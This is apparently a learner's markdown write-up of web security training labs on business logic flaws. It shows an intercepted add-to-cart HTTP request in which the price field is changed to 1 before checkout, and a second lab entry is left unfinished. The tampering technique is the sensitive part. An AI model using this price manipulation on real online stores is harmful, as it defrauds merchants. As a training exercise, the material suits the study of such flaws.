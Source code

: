# Business logic vulnerabilities


<details>
  <summary>Lab: Excessive trust in client-side controls</summary>

1. login using ``wiener:peter``
2. navigate ``home`` page and select product
3. Click ``add to cart`` with intercept the request

```http
POST /cart HTTP/1.1
Host: 0a43003003147e1c811880e3005d006f.web-security-academy.net
Cookie: session=4kC0DYbpfMKStrmFfEaBoLoLBYYPDH5K
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: https://0a43003003147e1c811880e3005d006f.web-security-academy.net
Referer: https://0a43003003147e1c811880e3005d006f.web-security-academy.net/product?productId=17
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive



productId=17&redir=PRODUCT&quantity=1&price=4817
```



set ``price`` to ``1``

```url
productId=17&redir=PRODUCT&quantity=1&price=1
```

back to cart and cilck ``place order``

![image](https://github.com/user-attachments/assets/2b7dbfc5-e7ed-4038-b01e-bb46220eaa69)



  
</details>







<details>
  <summary>Lab: High-level logic vulnerability</summary>

1. login using ``wiener:peter``
2. navigate ``home`` page and select product
3. Click ``add to cart`` with intercept the request
4. 
  
</details>




































































